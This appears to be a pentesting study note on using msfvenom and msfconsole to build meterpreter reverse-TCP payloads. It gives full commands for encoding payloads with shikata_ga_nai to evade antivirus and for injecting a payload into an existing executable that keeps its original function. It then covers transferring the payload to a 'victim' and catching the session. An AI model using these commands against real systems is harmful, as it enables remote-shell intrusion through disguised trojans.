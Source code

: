 Create listener via msfconsole
![](</Images/Pasted image 20231220191222.png>)

Difference between staged and non-staged is mainly file size. Staged is smaller.
### non-staged
>Formatted as `windows/x64/meterpreter_reverse_tcp`
#practice 
### staged
> Formatted as `windows/x64/meterpreter/reverse_tcp`

How to generate simple payload
`-a` specify architecture
`-p` specify payload
Attack machine info `LHOST` IP and `LPORT` port
`-f` file type `> payload name .<extension>`
`-f elf` for linux

Then transfer to victim machine
Lastly setup meterpreter session in msfconsole

### encoding payloads

to view different encoding methods:
`msfvenom --list enoders`

Good choice that works in both linux and windows
`shikata_ga_nai`

Usage:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -e <encoder> -f <file type to create> > <file name and location>
```

Increase iterations to help evade AV detection. Specify iterations with `-i <number>`

`-x` to inject executable into new file
`-k` to keep original functionality

Usage example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -e <encoder> -f <file type to create> -x <executable to inject into> > <file name and location>
```

